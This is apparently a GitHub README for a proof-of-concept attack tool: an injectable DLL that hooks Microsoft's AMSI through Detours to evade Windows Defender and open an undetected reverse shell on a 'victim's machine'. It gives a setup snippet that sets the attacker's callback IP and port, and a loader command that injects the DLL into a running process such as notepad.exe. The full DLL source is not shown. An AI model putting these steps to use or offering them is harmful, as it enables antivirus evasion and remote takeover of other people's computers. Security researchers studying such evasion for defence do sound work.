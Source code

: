 # A crafted/AMSI-Bypassing injectable DLL for establishing an undetected Reverse Shell using Microsoft Detours.

<b>This artefact allows to bypass Microsoft's AMSI interface (Windows Defender base) by going through <a href="https://www.microsoft.com/en-us/research/project/detours/">Microsoft Detours</a> in order to intercept and hijack the function calls that emanate from it, so as to launch an undetectable reverse shell and take control of the victim's machine.
This is obviously only a POC and this tool/method can be extended to an infinite number of possibilities.</b>

<h3> Usage : </h3>

In CustomDLL.cpp :
```cpp
ip = (char*)"<YOUR_IP_ADDRESS>"; // REPLACE WITH YOUR IP ADDRESS 
port = 0000; // TCP PORT YOU'RE LISTENING ON
```

```
Loader.exe <PID> <PATH_TO_CUSTOM_DLL>
```

<h3> Injection on notepad.exe & Reverse shell : </h3>
<img src="rs.gif">

<h3> Normal Scenario : </h3>
<img width="60%" src="https://i.ibb.co/wczdjVH/image.png">

<h3> DLL injection & AMSI bypassing through Detours : </h3>
<img src="https://i.ibb.co/S7ckJB6/amsi-1.png">

Crafted module loaded among the others : <br>
<img width="70%" src="https://i.ibb.co/z6hyWff/image.png">

<b><i>References : </i><br>
<a href="https://x64sec.sh/understanding-and-bypassing-amsi/">Understanding and bypassing AMSI</a><br>
<a href="https://github.com/microsoft/Detours/wiki/OverviewInterception">OverviewInterception</a><br>
<a href="https://github.com/microsoft/Detours">Microsoft Detours Package</a><br>
<a href="https://github.com/Xacone/NTDLLUnhookedReverseShell">NTDLL Unhooked Reverse Shell</a>
</b>
